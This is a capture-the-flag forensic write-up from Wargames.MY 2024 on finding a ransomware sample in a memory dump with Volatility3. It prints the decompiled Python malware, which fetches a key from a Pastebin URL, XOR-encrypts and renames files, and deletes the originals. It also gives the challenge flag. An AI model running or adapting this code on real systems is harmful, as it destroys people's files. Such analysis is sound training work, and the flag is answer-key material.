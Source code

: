 # [ WriteUp/Notes ] | Tricky Malware | Forensic - Wargames.MY CTF 2024

## By: Haalloobim as [HCS](https://ctftime.org/team/70159)

## Description 
1. Desc: 
My SOC detected there are Ransomware that decrypt file for fun. The script kiddies is so tricky. Here some evidence that we successfully retrieve.

2. Tools:
- [Volatiity3](https://github.com/volatilityfoundation/volatility3)
- [pyinstxtractor](https://pyinstxtractor-web.netlify.app/) 
- [PyLingual](https://pylingual.io/)
- IDA Decompiler

3. File: 
- [Evidence.rar](http://files.wargames.my/2024/Evidence.rar)

## How to solve? 

- We've been provided with a .rar file. In that archive file we've been provided by `.mem` file and `.pcap` file. We use volatility3 to analyze the `.mem` file. For the first phase of analyzing i use `cmdline`, `filescan`, and `pstree` plugin to anayze the file. here is the result. [cmdline](./src/cmdline.txt), [filescan](./src/filescan.txt), [pstree](./src/pstre.txt)    

- After analyzing those plugin result and based on the description, we assumed that at least one of these file is the malware referred to in the description. here is the file:
    - Tabtip.exe 
    - Crypt.exe
    - Slui.exe

- Why we assumed that suspicious, because the filename and where the file took place in the users directory, like example `Crypt.exe` took place in the `\Users\user\Desktop\` beside the `.mem` file, it make me assume that Crypt.exe its not a system/legit file. 
    **you can see the directory of the file using filescan plugin*

- And from that point we dump all that file and start to analyze it. 

    ```sh
    python3 vol3/vol.py -f memdump.mem dumpfiles --virtaddr 0xbc0ca61199b0 # Tabtip.exe
    python3 vol3/vol.py -f memdump.mem dumpfiles --virtaddr 0xbc0ca880fa80 # slui.exe
    python3 vol3/vol.py -f memdump.mem dumpfiles --virtaddr 0xbc0ca7eb88c0 # Crypt.exe
    ```
    **all of that virtual address is based on the offset in the filescan plugin result*

- When we analyze all of that three file, one of my teammate notice that one of the file is using pyinstaller and when we look it in the IDA decompiler it also says that the executable in the pyinstaller environment. 

    ![](./src/pyinstaller.png)

- After noticing that it used pyinstaller i used these two tools to extrct and decompile the file. [pyinstxtractor](https://pyinstxtractor-web.netlify.app/) | [PyLingual](https://pylingual.io/) and got this based python code. 

    ```python
    import os
    import requests

    def fetch_key_from_pastebin(url):
        """Fetch the encryption key from a Pastebin URL."""  # inserted
        try:
            response = requests.get(url)
            response.raise_for_status()
            return response.text.strip()
        except requests.exceptions.RequestException as e:
            print(f'Error fetching key: {e}0')
        else:  # inserted
            pass

    def xor_encrypt_decrypt(data, key):
        """Encrypt or decrypt data using XOR with the given key."""  # inserted
        key_bytes = key.encode('utf-8')
        key_length = len(key_bytes)
        return bytes([data[i] ^ key_bytes[i % key_length] for i in range(len(data))])

    def process_file(file_path, key, encrypt=True):
        """Encrypt or decrypt a file and modify its extension."""  # inserted
        try:
            with open(file_path, 'rb') as file:
                pass  # postinserted
        except Exception as e:
                data = file.read()
                processed_data = xor_encrypt_decrypt(data, key)
                if encrypt:
                    new_file_path = file_path + '.oiiaiouiiiai'
                else:  # inserted
                    new_file_path = file_path.rsplit('.oiiaiouiiiai', 1)[0]
                with open(new_file_path, 'wb') as file:
                    file.write(processed_data)
                    os.remove(file_path)
                    print(f'Processed {file_path} -> {new_file_path}')
                print(f'Failed to process {file_path}: {e}')
    if __name__ == '__main__':
        pastebin_url = 'https://pastebin.com/raw/PDXfh5bb'
        key = fetch_key_from_pastebin(pastebin_url)
        if not key:
            print('Failed to retrieve the key.')
            exit(1)
        for file_name in os.listdir():
            if not os.path.isfile(file_name):
                continue
            if file_name == os.path.basename(__file__):
                continue
            if file_name.endswith('.oiiaiouiiiai'):
                process_file(file_name, key, encrypt=False)
            else:  # inserted
                process_file(file_name, key, encrypt=True)
    ```

- As we can see, in that Python code, it encrypts the file and changes its extension to `.oiiaiouiiiai` as an encrypted file. The encryption process uses an XOR operation with a key fetched from Pastebin.

- Then, when we follow through that pastebin link, we can find the flag in it. 

![](./src/flag.png)

#### Flag: `WGMY{8b9777c8d7da5b10b65165489302af32}`
